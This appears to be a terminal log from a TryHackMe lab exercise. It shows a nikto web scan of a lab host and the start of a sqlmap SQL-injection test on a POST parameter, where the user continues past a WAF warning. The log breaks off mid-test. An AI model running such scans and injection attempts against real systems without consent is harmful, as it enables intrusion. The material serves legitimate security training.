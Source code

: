                                                                                                                    
┌──(kali㉿kali)-[~/Documents/THM/THM_Include]
└─$ nikto -h http://10.10.125.163:50000  -Tuning 4
Nikto v2.5.0
Target IP:          10.10.125.163
Target Hostname:    10.10.125.163
Target Port:        50000
Start Time:         2025-01-09 06:14:36 (GMT-5)
Server: Apache/2.4.41 (Ubuntu)
/: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
/: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
/: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
No CGI Directories found (use '-C all' to force check all possible dirs)
Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
/: Web Server returns a valid response with junk HTTP methods which may cause false positives.
983 requests: 0 error(s) and 5 item(s) reported on remote host
End Time:           2025-01-09 06:15:18 (GMT-5) (42 seconds)
1 host(s) tested


┌──(kali㉿kali)-[~/Documents/THM/THM_Include]
└─$ sqlmap -r req2.txt --level 4 --risk 3 --dbs  --dump 1
        ___
       __H__                                                                                                        
 ___ ___[,]_____ ___ ___  {1.8.7#stable}                                                                            
|_ -| . [(]     | .'| . |                                                                                           
|___|_  [']_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:33:13 /2025-01-09/

[07:33:13] [INFO] parsing HTTP request from 'req2.txt'
[07:33:13] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.10.125.163:4000/friend/1'. Do you want to follow? [Y/n] n
[07:33:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[07:33:18] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] Y
[07:33:22] [WARNING] please consider usage of tamper scripts (option '--tamper')
[07:33:22] [INFO] testing if the target URL content is stable
[07:33:22] [WARNING] POST parameter 'activityType' does not appear to be dynamic
[07:33:22] [WARNING] heuristic (basic) test shows that POST parameter 'activityType' might not be injectable
[07:33:23] [INFO] testing for SQL injection on POST parameter 'activityType'
[07:33:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[07:33:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[07:33:28] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[07:33:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[07:33:31] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[07:33:33] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[07:33:34] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[07:33:35] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[07:33:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[07:33:36] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[07:33:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'